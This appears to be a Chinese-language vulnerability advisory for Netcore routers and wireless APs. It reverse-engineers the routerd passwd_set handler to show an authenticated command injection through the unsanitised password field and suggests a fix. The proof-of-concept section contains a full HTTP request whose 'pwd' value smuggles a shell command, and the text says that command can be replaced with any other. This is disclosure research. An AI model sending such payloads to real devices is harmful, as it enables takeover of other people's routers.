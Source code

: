 # Netcore磊科路由器、无线AP产品存在授权后的任意命令注入

## 一、涉及产品及固件下载地址

NBR1005GPEV2：https://www.netcoretec.com/service-support/download/firmware/2707.html

B6V2：https://www.netcoretec.com/service-support/download/firmware/2703.html

COVER5：https://www.netcoretec.com/service-support/download/firmware/2680.html

NAP930（存疑）：https://www.netcoretec.com/service-support/download/firmware/2704.html

NAP830（存疑）：https://www.netcoretec.com/service-support/download/firmware/2708.html

NBR100V2：https://www.netcoretec.com/service-support/download/firmware/2706.html

NBR200V2：https://www.netcoretec.com/service-support/download/firmware/2705.html

POWER13：[https://www.netcoretec.com/service-support/download/firmware/2700.html](https://www.netcoretec.com/service-support/download/firmware/2700.html)

因硬件模拟有限（使用qemu模拟和openwrt的malta内核），无法对NAP930和NAP830进行模拟验证，但其代码中确实存在该漏洞。**如需展示模拟步骤，可告知我补充。**

## 二、漏洞成因

该系列路由器固件使用 `uhttpd` + `ubus`架构

 **uhttpd（Web服务器）** ：

* 监听 `80` 端口（HTTP），接收 `POST /ubus` 请求。
* 解析请求头，确认 `Content-Type` 为 `application/x-www-form-urlencoded`，但实际负载为 JSON（不规范但常见）。
* 将请求转发给 `ubus` RPC 服务（通常通过 `ubus` 的 Unix Socket 或 CGI 接口）。

输入ubus list命令可以看到ubus注册的服务

![1746600757491](image/README/1746600757491.png)

定位到routerd，即/usr/bin/routerd文件，在data段找到该服务注册的一系列方法的回调函数，passwd_set方法对应回调函数sub_416260

![1746600953768](image/README/1746600953768.png)

在回调函数sub_416260中，首先调用 `blobmsg_parse` 解析 Blob 格式数据（OpenWrt 的二进制 JSON 格式）。

![1746601012709](image/README/1746601012709.png)

还原解析式所用结构体，得到以下字段映射：

* `v19` → `user`（用户名）
* `v20` → `pwd`（密码） 后面还有v16=v20
* `v21` → `by`（请求中未提供时值为空）

![1746601107563](image/README/1746601107563.png)

从 `v19`中提取用户名（`command`），跳过Blobmsg头部。

遍历用户名中的每个字符，检查是否满足以下条件：

* 字符是 `_`（ASCII `0x5F`） **或** 字母数字（`isalnum`函数）。

若发现非法字符，记录日志并返回错误（`ulog`）。

![1746601255662](image/README/1746601255662.png)

从 `v16`中提取密码值（`v17`），跳过Blobmsg头部。此处**无任何合法性检查** ，直接传递给 `passwd_set_api`。即执行passwd_set_api(usrname,password)

此处接下去如果result返回0，并且用户名为"root"、v15（by字段的字符串）不为"ac"，则直接将v17写入到uci set auto_ac.auto_ac.passwd=%s;uci commit auto_ac中，然后执行system，此处存在**命令注入**漏洞

![1746601374783](image/README/1746601374783.png)

在passwd_set_api中，也并没有对密码进行检测（a2）

![1746601489477](image/README/1746601489477.png)

如果密码（a2）存在，相当于执行

snprintf(v10, 0x80u, "passwd %s", a1);  // v10 = "passwd root"
snprintf(v11, 0x80u, "%s\n", a2);       // v11 = "admin123\n"
v4 = popen(v10, "w");                   // 打开命令管道（写入模式）

然后写入密码

v5 = strlen(v11);
fwrite(v11, v5, 1u, v4);  // 第一次写入密码
v6 = strlen(v11);
fwrite(v11, v6, 1, v4);   // 第二次写入密码（确认密码）

成功后返回0，即成功抵达上面命令注入的漏洞处。

![1746601700013](image/README/1746601700013.png)

## 三、POC解释

POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 163
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/guide/guide.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"jsonrpc":"2.0","id":22,"method":"call","params":["a9c61fc83080b13ded7512db83c9b123","routerd","passwd_set",{"user":"root","pwd":"admin123;mkdir -p /tmp/test1"}]}

将请求内容中的params字段中第一个值(sid)："a9c61fc83080b13ded7512db83c9b123"替换成登录后的拦截得到的sid，mkdir -p /tmp/test1可换成任意命令

远程获得shell演示：

![1746603016270](image/README/1746603016270.png)

## 四、建议解决办法

同样对passwd限制仅下划线和数字及字母

